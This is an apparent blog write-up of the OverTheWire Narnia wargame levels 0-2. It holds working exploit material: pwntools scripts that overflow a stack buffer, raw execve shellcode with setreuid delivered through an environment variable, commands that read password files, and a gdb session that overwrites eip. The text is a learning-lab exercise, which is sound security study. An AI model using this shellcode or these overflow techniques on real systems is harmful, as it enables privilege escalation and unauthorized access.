 ```yaml
---
layout: post
title: "OverTheWire Narnia"
date: 2024-08-19 +0200
categories: jekyll update
---
```

[https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)
```sh
ssh narnia0@narnia.labs.overthewire.org -p 2226
```

I'm using [pwntools](https://github.com/Gallopsled/pwntools) in a Kali Linux VM to make it easier to solve the levels. OverTheWire also seems to include python3 and pwntools.

## Observations
There is a `/narnia` folder and the passwords are in `/etc/narnia_pass`. Some of the levels also seem to include C source code.
```sh
find / -type f -name '*narnia*' 2> /dev/null
/etc/issue.narnia
/etc/issue.narnia.fail
/etc/issue.narnia.localhost
/etc/narnia_pass/narnia0
/etc/narnia_pass/narnia1
/etc/narnia_pass/narnia2
/etc/narnia_pass/narnia3
/etc/narnia_pass/narnia4
/etc/narnia_pass/narnia5
/etc/narnia_pass/narnia6
/etc/narnia_pass/narnia7
/etc/narnia_pass/narnia8
/etc/narnia_pass/narnia9
/etc/ssh/sshd_config.d/narnia.conf
/narnia/narnia0
/narnia/narnia0.c
/narnia/narnia1
/narnia/narnia1.c
/narnia/narnia2
/narnia/narnia2.c
/narnia/narnia3
/narnia/narnia3.c
/narnia/narnia4
/narnia/narnia4.c
/narnia/narnia5
/narnia/narnia5.c
/narnia/narnia6
/narnia/narnia6.c
/narnia/narnia7
/narnia/narnia7.c
/narnia/narnia8
/narnia/narnia8.c

ls /etc/narnia_pass/ -la
-r--------   1 narnia0 narnia0     8 Jul 17 15:58 narnia0
-r--------   1 narnia1 narnia1    11 Jul 17 15:58 narnia1
-r--------   1 narnia2 narnia2    11 Jul 17 15:58 narnia2
-r--------   1 narnia3 narnia3    11 Jul 17 15:58 narnia3
-r--------   1 narnia4 narnia4    11 Jul 17 15:58 narnia4
-r--------   1 narnia5 narnia5    11 Jul 17 15:58 narnia5
-r--------   1 narnia6 narnia6    11 Jul 17 15:58 narnia6
-r--------   1 narnia7 narnia7    11 Jul 17 15:58 narnia7
-r--------   1 narnia8 narnia8    11 Jul 17 15:58 narnia8
-r--------   1 narnia9 narnia9    11 Jul 17 15:58 narnia9
```

## narnia0
`cat /narnia/narnia0.c`
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

The binary reads the input and we somehow have to change `val` from `0x41414141` to `0xdeadbeef` to pass the check.
The issue is the buffer is 20 bytes but `scanf()` is reading 24 characters into it. It also has some helpful printf messsages.

To use pwntools I can put the python scripts in folder in `/tmp`. The `val` variable on the stack gets overwritten with `BCDE (0x45444342)` so that works.
```py
from pwn import *
s = "A" * 20
s += "BCDE"
p = process('/narnia/narnia0')
s1 = p.recvline()
p.sendline(s)
p.interactive()
```
```
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABCDE
val: 0x45444342
WAY OFF!!!!
```

Now we we should be able overwrite it with `0xdeadbeef` by packing it into a 32 bit integer.
```py
from pwn import *
s = b"A" * 20
s += p32(0xdeadbeef)
p = process('/narnia/narnia0')
s1 = p.recvline()
p.sendline(s)
p.interactive()
```
```
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ\xde
val: 0xdeadbeef
$ whoami
narnia1

$ cat /etc/narnia_pass/narnia1
```

## narnia1
`cat /narnia/narnia1.c`
```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

It's looking for an egg 🥚 environment variable so we need to define it at least. Let's try printing the password with cat.
```sh
export EGG="cat /etc/narnia_pass/narnia1"

/narnia/narnia1
Trying to execute EGG!
Segmentation fault (core dumped)
```
Apparently it directly executes a function so we need some kind of [shellcode](https://www.exploit-db.com/exploits/44594). This popped the shell with `execve("/bin/sh")` but the uid was still 14001 (narnia1). I noticed there were multiple people in the OTW discord having the same problem.
```py
export EGG=$(python3 -c ex'import sys; sys.stdout.buffer.write(b"\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80")')
/narnia/narnia1
Trying to execute EGG!
$ cat /etc/narnia_pass/narnia2
cat: /etc/narnia_pass/narnia2: Permission denied

$ whoami
narnia1

$ id
uid=14001(narnia1) gid=14001(narnia1) groups=14001(narnia1)
```

The narnia0 level hints this with the `setreuid(geteuid(),geteuid())` call, which is included in this [shellcode](https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner).
Note that python3 has some [issues](https://stackoverflow.com/questions/39424833/outputting-hex-values-in-python3) with handling hex strings which requires calling `sys.stdout.buffer.write` instead of `print`.
```py
export EGG=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80")')
/narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2

$ id
uid=14002(narnia2) gid=14001(narnia1) groups=14001(narnia1)

$ cat /etc/narnia_pass/narnia2
```

## narnia2
`cat /narnia/narnia2.c`
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
```py
/narnia/narnia2 $(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 132 + b"BBBB")')
```
Let's debug the buffer overflow; `eip` gets overwritten with BBBB so we should execute some shellcode and also call `setreuid()` to narnia3's uid.
```sh
gdb /narnia/narnia2
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 132 + b"BBBB")')
# Program received signal SIGSEGV, Segmentation fault.
# 0x42424242 in ?? ()
```
